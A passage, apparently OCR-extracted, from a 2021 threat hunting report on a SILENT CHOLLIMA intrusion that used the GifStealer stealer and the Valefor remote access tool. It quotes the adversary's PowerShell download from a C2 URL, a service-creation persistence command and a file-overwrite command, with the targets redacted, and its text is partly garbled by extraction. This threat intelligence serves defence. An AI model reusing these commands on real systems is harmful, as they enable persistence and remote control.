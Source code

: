 the Export Control files resources. A library function can be modified to run the 
malicious shellcode, and in this case the modified function was \_setmbcpy. 
The shellcode is then subsequently decrypted using a custom RC4 cipher 
implementation before it is loaded into memory and executed. In this instance, 
SILENT CHOLLIMA used this technique to load two further custom tools for 
post\-compromise actions on objectives.48They started by deploying an information stealer named GifStealer, which runs a 
variety of host and network reconnaissance commands and archives the output 
within individual compressed files. The header of each file is appended with .gif 
to appear as a Graphics Interchange Format (GIF) image and is then added into a 
compressed archive41 with a pseudo random name, as seen in the example below.C:WindowsTemp\~62CEH72K.tmpNext, the adversary used a separate Export Control dropper to load Valefor, a 
remote access tool (RAT) that SILENT CHOLLIMA developed for post\-compromise 
activity. Valefor uses Windows API functions and utilities to enable file transfer and 
data collection capabilities.Threat hunters discovered the Valefor trojan using a svchost process to perform 
beaconing and file access from a hard\-coded C2 URL through PowerShell, as seen below.powershell\-exec Bypass \-noP "while ($true) { $w\=(New\-Object 
System.Net.WebClient).DownloadString('\[REDACTED]'); echo $w;exit}"OverWatch continued to alert the victim organization to the developing situation and 
the emerging attribution to SILENT CHOLLIMA.Increased Visibility Unearths Further Adversary ActivityOverWatch worked with the victim to ascertain the full scope of adversary activity 
within the victim environment by expanding the rollout of the Falcon sensor. 
OverWatch increased the organization's coverage and visibility into the intrusion 
through this rollout, ultimately uncovering adversary activity on six additional hosts.OverWatch observed the adversary using Smbexec to remotely perform a wide 
range of host and network reconnaissance activity from an internal host. The 
adversary again acquired an Export Control dropper to disk in preparation for 
GifStealer and Valefor installation, but this time they used a different Valefor variant, 
which contacted an alternative C2 infrastructure, potentially as a backup in case of 
any issues with the initial variant or C2 domain.OverWatch then discovered a service creation42 event that was configured to 
execute the Export Control loader every time the system reboots. Adversaries will 
often use techniques such as establishing rogue services or adding registry keys to 
maintain persistence if they temporarily lose connection to the host.sc create \[REDACTED] type\= own type\= interact start\= auto error\= 
ignore binpath\= "cmd K start C:WindowsResources\[REDACTED].exe"The adversary attempted to evade detection by storing their Export Control 
droppers and archived reconnaissance data within legitimate local directories43 in an 
effort to masquerade the file as benign. The directories used by SILENT CHOLLIMA 
during this intrusion are listed below.C:WindowsResourcesC:WindowsHelpC:WindowsTemp41https:attack.mitre.orgtechniquesT1560003
42https:attack.mitre.orgtechniquesT1543003
43https:attack.mitre.orgtechniquesT10360052021 Threat Hunting Report49The adversary was also mindful to remove traces of the collected GifStealer 
archives by deleting them,44 in addition to overwriting the GifStealer binary itself 
using the string below. CrowdStrike Intelligence has also linked this technique to the 
SILENT CHOLLIMA adversary."C:Windowssystem32cmd.exe" c ping \-n 3 127\.0\.0\.1 \>NUL \& echo 
EEEE \> "C:WindowsTemp\[REDACTED]"Throughout this intrusion, OverWatch threat hunters relayed their findings to the 
victim to support their containment efforts and removal of SILENT CHOLLIMA from 
the network. Threat hunters followed the OverWatch SEARCH methodology to its final 
step hone and ensured that the new findings from the intrusion\-informed hunting 
and detections logic were shared across all OverWatch customer sensors worldwide.Conclusion and RecommendationsThe OverWatch team exposed multiple signs of malicious tradecraft in the early 
stages of this attack, ultimately leading to the identification and removal of SILENT 
CHOLLIMA from the victims environment. The expertise and experience of 
OverWatch hunters proved instrumental in quickly discerning malicious SMB activity 
in the victim environment. Further hunting activity uncovered a trove of custom 
tooling that aided rapid attribution efforts by CrowdStrike Intelligence.In this instance, OverWatch worked with the victim organization to rapidly expand 
Falcon sensor coverage to the rest of its environment to support identification of 
the adversary on additional hosts. Though the Falcon sensor can be deployed and 
operational in just seconds, OverWatch strongly recommends that defenders roll out 
